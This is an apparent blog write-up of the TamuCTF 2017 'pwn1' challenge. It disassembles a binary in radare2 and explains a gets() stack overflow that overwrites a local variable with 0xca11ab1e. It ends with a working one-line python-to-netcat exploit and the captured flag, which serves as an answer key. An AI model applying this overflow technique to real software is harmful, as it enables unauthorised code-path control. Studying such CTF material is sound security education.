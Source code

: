 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-08T18:56:18+02:00
description: TamuCTF 2017 - pwn1
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 -A pwn1  
```
> At some point the link will be broken, if so you can use the [one](https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn1/pwn1) from the repository.

Now that the binary is opened, lets see some stuff inside it.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   sym.frame_dummy
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
0x08048630    4 93           sym.__libc_csu_init
0x08048690    1 2            sym.__libc_csu_fini
0x08048694    1 20           sym._fini
{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside of it.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> s sym.print_flag 
[0x0804854b]> pdf 
┌ (fcn) sym.print_flag 103 
│   sym.print_flag ();
│           ; var int local_dh @ ebp-0xd
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x08048606 (main)
│           0x0804854b      55             push ebp
│           0x0804854c      89e5           ebp = esp
│           0x0804854e      83ec18         esp -= 0x18
│           0x08048551      83ec0c         esp -= 0xc
│           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
│           0x08048559      e892feffff     sym.imp.puts ()
│           0x0804855e      83c410         esp += 0x10
│           0x08048561      83ec08         esp -= 8
│           0x08048564      68d3860408     push 0x80486d3
│           0x08048569      68d5860408     push str.flag.txt
│           0x0804856e      e8adfeffff     sym.imp.fopen ()
│           0x08048573      83c410         esp += 0x10
│           0x08048576      8945f4         dword [local_ch] = eax
│       ┌─< 0x08048579      eb10           goto 0x804858b
│       │      ; JMP XREF from 0x080485a0 (sym.print_flag)
│      ┌──> 0x0804857b      0fbe45f3       eax = byte [local_dh]
│      |│   0x0804857f      83ec0c         esp -= 0xc
│      |│   0x08048582      50             push eax
│      |│   0x08048583      e8a8feffff     sym.imp.putchar ()
│      |│   0x08048588      83c410         esp += 0x10
│      ↑│      ; JMP XREF from 0x08048579 (sym.print_flag)
│      |└─> 0x0804858b      83ec0c         esp -= 0xc
│      |    0x0804858e      ff75f4         push dword [local_ch]
│      |    0x08048591      e84afeffff     sym.imp._IO_getc ()
│      |    0x08048596      83c410         esp += 0x10
│      |    0x08048599      8845f3         byte [local_dh] = al
│      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff
│      └──< 0x080485a0      75d9           if (var) goto 0x804857b
│           0x080485a2      83ec0c         esp -= 0xc
│           0x080485a5      6a0a           push 0xa
│           0x080485a7      e884feffff     sym.imp.putchar ()
│           0x080485ac      83c410         esp += 0x10
│           0x080485af      90             
└           0x080485b0      c9             
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e`, we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the current function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` which belongs to `main` function. Lets see whats inside it.

{{< highlight r2 "hl_lines=30 31 32 34 35 36" >}}
[0x0804854b]> pdf @ main   
            ;-- main:
┌ (fcn) main 120
│   main ();
│           ; var int local_27h @ ebp-0x27
│           ; var int local_ch @ ebp-0xc
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x08048467 (entry0)
│           0x080485b2      8d4c2404       ecx = [local_4h]
│           0x080485b6      83e4f0         esp &= 0xfffffff0
│           0x080485b9      ff71fc         push dword [ecx - 4]
│           0x080485bc      55             push ebp
│           0x080485bd      89e5           ebp = esp
│           0x080485bf      51             push ecx
│           0x080485c0      83ec24         esp -= 0x24
│           0x080485c3      a130a00408     eax = dword obj.stdout
│           0x080485c8      6a00           push 0
│           0x080485ca      6a00           push 0
│           0x080485cc      6a02           push 2
│           0x080485ce      50             push eax
│           0x080485cf      e83cfeffff     sym.imp.setvbuf ()
│           0x080485d4      83c410         esp += 0x10
│           0x080485d7      83ec0c         esp -= 0xc
│           0x080485da      68de860408     push str.Enter_the_secret_word:
│           0x080485df      e80cfeffff     sym.imp.puts ()
│           0x080485e4      83c410         esp += 0x10
│           0x080485e7      c745f4000000.  dword [local_ch] = 0
│           0x080485ee      83ec0c         esp -= 0xc
│           0x080485f1      8d45d9         eax = [local_27h]
│           0x080485f4      50             push eax
│           0x080485f5      e8d6fdffff     sym.imp.gets ()
│           0x080485fa      83c410         esp += 0x10
│           0x080485fd      817df41eab11.  var = dword [local_ch] - 0xca11ab1e
│       ┌─< 0x08048604      7507           if (var) goto 0x804860d
│       │   0x08048606      e840ffffff     sym.print_flag ()
│      ┌──< 0x0804860b      eb10           goto 0x804861d
│      ││      ; JMP XREF from 0x08048604 (main)
│      │└─> 0x0804860d      83ec0c         esp -= 0xc
│      │    0x08048610      68f5860408     push str.That_is_not_the_secret_word_
│      │    0x08048615      e8d6fdffff     sym.imp.puts ()             ; int puts(const char *s)
│      │    0x0804861a      83c410         esp += 0x10
│      │       ; JMP XREF from 0x0804860b (main)
│      └──> 0x0804861d      b800000000     eax = 0
│           0x08048622      8b4dfc         ecx = dword [local_4h_2]
│           0x08048625      c9             
│           0x08048626      8d61fc         esp = [ecx - 4]
└           0x08048629      c3             
{{< /highlight >}}



We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function.

So what we need to do?  
As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then, if we input more characters than it is supposed to store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
